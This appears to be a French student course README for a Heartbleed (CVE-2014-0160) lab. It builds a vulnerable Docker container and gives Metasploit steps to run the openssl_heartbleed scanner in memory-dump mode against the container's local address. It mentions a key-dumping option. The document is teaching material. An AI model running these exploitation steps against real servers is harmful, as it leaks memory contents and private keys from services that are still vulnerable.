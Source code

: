 # Introduction à la sécurité des systèmes d'informations

## Equipe

* Guillaume MALLET
* Tom RUSSELLO
* Vincent TAVERNIER

## Faille choisie

CVE-2014-0160 : OpenSSL Heartbeat extension implementation, dite *Heartbleed*.

Versions vulnérables : OpenSSL 1.0.1 through 1.0.1f (inclusive) are vulnerable
(http://heartbleed.com/).

## Références

* http://heartbleed.com/
* https://xkcd.com/1354/

## Usage

```bash
# Build the image
sudo docker build -t cysec-heartbleed .

# Run a container from the built image
sudo docker run --name cysec-heartbleed -it cysec-heartbleed

# Find out the IP address of the container
docker network inspect bridge

# Installations des paquets nécessaires pour metasploit (exemple sous Debian)
sudo apt-get install git-core postgresql curl ruby-dev nmap gem
gem install wirble sqlite3 bundler
git clone https://github.com/rapid7/metasploit-framework.git
cd metasploit*
bundle install



# Run metasploit
./msfconsole
use auxiliary/scanner/ssl/openssl_heartbleed
set ACTION DUMP      # Just dump data. Use KEYS if you want to try dumping the keys
set RHOST 172.17.0.2 # IP address from the network inspect command
set RPORT 443        # Change if you use a different port in the container
run
```
